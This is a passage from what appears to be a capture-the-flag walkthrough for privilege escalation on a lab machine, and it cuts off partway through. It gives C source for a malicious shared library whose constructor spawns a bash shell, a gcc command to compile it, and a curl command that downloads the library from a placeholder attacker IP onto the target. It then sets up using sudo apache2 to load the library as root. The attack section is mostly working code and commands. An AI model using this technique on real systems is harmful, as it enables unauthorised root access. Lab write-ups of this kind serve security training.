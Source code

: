     * **Action:** Create a C file on your attacker machine that will spawn a shell when loaded. Save it in `~/robots_payloads/`.

    * **Code for `malicious.c`:**

        ```c

        #include <stdio.h>

        #include <stdlib.h>


        void __attribute__ ((constructor)) init_library(void) {

            system("/bin/bash"); // Execute a bash shell when loaded

        }

        ```

    * **Reasoning:** The `__attribute__((constructor))` ensures `init_library` runs automatically when the shared library is loaded by a program.


3.  **Compile Malicious Shared Library:**

    * **Action:** Compile `malicious.c` into a shared library (`.so` file).

    * **Command (executed on attacker machine):**

        ```bash

        gcc -shared -o ~/robots_payloads/malicious.so ~/robots_payloads/malicious.c -fPIC

        ```

        * `-shared`: Creates a shared library.

        * `-o malicious.so`: Output filename.

        * `-fPIC`: Generates position-independent code, necessary for shared libraries.


4.  **Transfer Malicious Shared Library to Target:**

    * **Action:** Transfer the compiled `malicious.so` to the target. Ensure your Python web server is still running.

    * **Command (executed as `dooly_vow` on the target):**

        ```bash

        cd /home/dooly_vow

        curl -o malicious.so http://<YOUR_ATTACKER_IP>/malicious.so

        ```


5.  **Execute `apache2` to Load Malicious Library and Obtain Root Shell:**

    * **Action:** Use `sudo` to run `apache2` as root, forcing it to load your malicious shared library.

    * **Command (executed as `dooly_vow` on the target):**
